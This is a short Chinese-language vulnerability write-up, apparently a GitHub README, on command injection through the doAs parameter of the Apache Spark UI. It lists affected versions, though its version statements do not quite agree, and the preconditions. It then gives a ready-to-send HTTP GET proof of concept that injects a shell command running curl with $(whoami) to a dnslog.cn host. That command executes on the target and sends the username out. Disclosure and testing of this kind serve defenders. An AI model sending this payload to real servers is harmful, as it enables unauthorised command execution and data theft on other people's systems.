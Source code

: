 ## 介绍
Apache Spark是美国阿帕奇（Apache）基金会的一款支持非循环数据流和内存计算的大规模数据处理引擎。

Apache Spark 3.4.0之前版本存在命令注入漏洞，该漏洞源于如果ACL启用后，HttpSecurityFilter中的代码路径可以允许通过提供任意用户名来执行模拟，这将导致任意shell命令执行。

## 漏洞版本
3.1.1 <= Apache Spark < 3.2.2
![image](https://github.com/user-attachments/assets/0043f18e-df88-492d-9e68-ab424f61de66)

## 利用条件
Apache Spark UI 启用 ACL ，且低权限

## 漏洞poc
```
GET /jobs/?doAs=`curl+$(whoami)hw9y0l.dnslog.cn` HTTP/1.1
Host: 10.211.55.7:4040
Connection: keep-alive
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0  Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```
